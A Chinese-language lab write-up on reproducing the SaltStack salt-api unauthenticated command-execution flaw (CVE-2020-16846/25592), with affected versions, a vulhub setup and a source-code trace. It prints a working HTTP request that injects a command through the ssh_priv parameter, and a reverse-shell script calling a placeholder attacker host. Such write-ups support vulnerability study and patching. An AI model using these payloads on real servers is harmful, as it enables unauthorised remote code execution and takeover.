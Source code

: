# SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

## 漏洞影响

<a-checkbox checked>SaltStack Version 3002</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3001.1, 3001.2</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3000.3, 3000.4</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2019.2.5, 2019.2.6</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2018.3.5</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2017.7.4, 2017.7.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.11.3, 2016.11.6,2016.11.10</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.3.4, 2016.3.6,2016.3.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2015.8.10, 2015.8.13</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 `FileLocation:Classname.method()`

`salt/netapi/init.py:NetapiClient.run()`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165558077.png)



low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给`kwargs。`

当client参数为ssh时，动态调用`salt/netapi/init.py:NetapiClient.ssh()`, 该方法未采用任何鉴权。

`salt/netapi/init.py:NetapiClient.ssh()`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551777.png)



跟进，路径如下：

`salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()`

`salt/client/ssh/client.py:SSHClient._prep_ssh()`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554779.png)



该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

`salt/client/ssh/init.py:SSH.__init__()`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552768.png)



priv的值从opts变量中获取，并调用`salt.client.ssh.shell.gen_key()`方法

`salt/client/ssh/shell.py:gen_key()`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551783.png)

```shell
POST /run HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554420.png)



反弹shell的方法，先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165553216.png)

监听端口，使用 `/bin/bash` 运行文件 反弹shell

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552939.png)

## 参考文章

<a-alert type="success" message="https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag" description="" showIcon>
</a-alert>
<br/>